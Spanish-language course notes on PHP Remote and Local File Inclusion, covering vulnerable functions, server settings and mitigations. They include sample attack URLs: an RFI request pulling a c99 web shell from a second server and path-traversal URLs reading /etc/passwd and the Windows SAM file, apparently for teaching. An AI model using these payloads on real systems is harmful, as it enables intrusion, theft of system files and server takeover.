 ### RFI: Remote File Inclusion

Veamos en qué consiste un ataque de inclusión de ficheros remotos (RFI):
- Objetivo: Ejecución de código remoto dentro de la aplicación vulnerable. Al igual que un fichero se puede cargar de forma local para incluirlo en la Web, podríamos cargar uno con código malicioso. Ojo con los lenguajes interpretados. Ejemplo: http://www.mipagina.com/mostrar.php?pag=paginaMaliciosa.php
- Funciones vulnerables que no se deben utilizar en el código:
    - include($pag)
    - require($pag)
    - include_once($pag)
    - require_once($pag)
- Configuración vulnerable que no se debe utilizar en el servidor:
    - allow_url_fopen()
    - allow_url_include()
    - register_globals()
- Ejemplo de RFI: Un ejemplo un poco más complejo y peligroso es el de que un cracker envíe una petición a un servidor 1 con `http://server1/index.php?page=http://server2/c99.txt` donde le estamos diciendo que ejecute el código del fichero c99.txt de un segundo servidor. Ese código en concreto se ejecutará el servidor 1 y dejará abierta una backdoor. Como respuesta a la petición del cracker le llegará por parte del servidor una webshell con la que podrá conseguir control total del servidor 1. 
- Otro ejemplo: Si usamos la MV de antes > File Inclusion y cambiamos la url del page por marca.com y entonces vemos que se nos redirige a esa página. Incluso podemos ejecutar el c99 si lo buscamos en github y lo insertamos ahí.
- Solución: Evitar las funciones y configuraciones antes mencionadas.

### LFI: Local File Inclusion

- Objetivo: Incluir dentro de la página Web un fichero local (con permiso de lectura) del usuario con el que se ejecuta el servidor de aplicaciones Web. Esto pasa tanto con lenguajes compilados como interpretados.
- Sitios expuestos:
    - Páginas web de plantillas: Cambia un fichero desde otro y da formato.
    - Páginas de descargas: Recibe un parámetro con el nombre del fichero a descargar y lo manda al cliente.
- Ejemplo de explotación: Accedemos a un fichero del sistema subiendo directorios ..\ o ../ según sea Windows o Linux más el nombre del fichero. 
    - Si tenemos una web cuyo uso normal sería subir la página deportes.php -> http://www.victima.com/noticias/detalle.php?id=4&tipo=deportes.php
    - La podemos cambiar por archivos como http://www.victima.com/noticias/detalle.php?id=4&tipo=../../../../etc/passwd
    - http://www.victima.com/noticias/detalle.php?id=4&tipo=../../../etc/hosts
    - http://www.victima.com/noticias/detalle.php?id=4&tipo=..\..\..\Windows\repair\SAM
- Ejemplo concreto: Nos vamos a la MV de antes > File Inclusion y cambiamos la url y ponemos de ruta ../../ un montón de veces para asegurarnos subir hasta la raíz del sistema y luego /etc/passwd. 
- Soluciones:
    - Montar el servidor con el mínimo privilegio posible, limitando acceso a la propia carpeta.
    - Hay que proteger los ficheros por medio de la programación no sólo por los permisos del servidor. A estos se puede acceder de manera:
        - Directa -> poniendo la ruta. Por tanto eliminamos los \ y /
        - Indirectamente -> poniendo ../ o ..\ por tanto eliminamos o escapamos los puntos y las barras.
